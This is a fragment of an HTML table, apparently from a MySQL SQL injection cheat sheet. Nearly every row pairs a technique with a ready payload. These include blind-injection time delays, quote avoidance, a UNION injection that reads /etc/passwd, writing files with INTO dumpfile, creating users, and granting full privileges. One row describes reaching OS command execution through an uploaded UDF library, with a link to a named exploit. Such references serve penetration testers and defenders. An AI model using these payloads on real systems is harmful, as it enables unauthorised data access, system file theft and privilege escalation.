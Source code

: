 </tr>
<tr>
<td>If Statement</td>
<td>SELECT if(1=1,’foo’,'bar’); — returns ‘foo’</td>
</tr>
<tr>
<td>Case Statement</td>
<td>SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; # returns A</td>
</tr>
<tr>
<td>Avoiding Quotes</td>
<td>SELECT 0×414243; # returns ABC</td>
</tr>
<tr>
<td>Time Delay</td>
<td><span>SELECT BENCHMARK(1000000,MD5(‘A’));<br>
SELECT SLEEP(5); # &gt;= 5.0.12<br>
</span></td>
</tr>
<tr>
<td>Make DNS Requests</td>
<td>Impossible?</td>
</tr>
<tr>
<td>Command Execution</td>
<td>If mysqld (&lt;5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar).&nbsp; The .so file should contain a User Defined Function (UDF).&nbsp; <a href="http://www.0xdeadbeef.info/exploits/raptor_udf.c">raptor_udf.c</a> explains exactly how you go about this.&nbsp; Remember to compile for the target architecture which may or may not be the same as your attack platform.</td>
</tr>
<tr>
<td>Local File Access</td>
<td>…’ UNION ALL SELECT LOAD_FILE(‘/etc/passwd’) — priv, can only read world-readable files.<br>
SELECT * FROM mytable INTO dumpfile ‘/tmp/somefile’; — priv, write to file system</td>
</tr>
<tr>
<td>Hostname, IP Address</td>
<td>SELECT @@hostname;</td>
</tr>
<tr>
<td>Create Users</td>
<td>CREATE USER test1 IDENTIFIED BY ‘pass1′; — priv</td>
</tr>
<tr>
<td>Delete Users</td>
<td>DROP USER test1; — priv</td>
</tr>
<tr>
<td>Make User DBA</td>
<td>GRANT ALL PRIVILEGES ON *.* TO test1@’%'; — priv</td>
</tr>
<tr>
<td>Location of DB files</td>
<td>SELECT @@datadir;</td>
</tr>
<tr>
<td>Default/System Databases</td>
<td>information_schema (&gt;= mysql 5.0)<br>
mysql</td>
</tr>
</tbody>

